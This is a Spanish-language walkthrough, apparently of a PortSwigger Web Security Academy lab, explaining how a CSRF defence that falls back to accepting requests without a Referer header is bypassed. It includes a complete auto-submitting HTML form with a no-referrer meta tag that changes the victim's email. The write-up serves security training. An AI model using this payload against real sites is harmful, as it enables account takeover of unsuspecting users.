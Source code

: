 En este laboratorio se aprovecha una mala implementación del control de Referer como medida de protección contra ataques CSRF. Aunque la aplicación valida el encabezado Referer para asegurarse de que provenga del mismo dominio, acepta las peticiones incluso cuando este encabezado no está presente.

Mediante una metaetiqueta con name igual a referrer y content igual a no-referrer, se evita que el navegador incluya automáticamente el encabezado en la petición. Así, se logra que el servidor acepte la solicitud sin validar el origen, permitiendo cambiar el correo de la víctima sin romper ninguna política de seguridad aparente.

Este tipo de fallos demuestran cómo las medidas de seguridad basadas únicamente en encabezados pueden ser fácilmente burladas, especialmente cuando hay un fallback inseguro como en este caso.

Solucion
aqui vemos la peticion que el referer verifica que nosotro vengamos de la url correcta
![Pasted_image_20250723231034.png](/Imagenes/Pasted_image_20250723231034.png)
entonces si nosotro quitamos de alguna manera el referer podemos cambiar el correo y esto lo logramos con un payload donde con las etiquetas html y meta logramos burlarlo
(<html>
<head>
   <meta name="referrer" content="no-referrer">
</head>
<form method="POST" action="https://0a7500d50483caaf80193a2c0082006c.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<script>
        document.forms[0].submit();
</script>
</html>)

![Pasted_image_20250723231626.png](/Imagenes/Pasted_image_20250723231626.png)
![Pasted_image_20250723231951.png](/Imagenes/Pasted_image_20250723231951.png)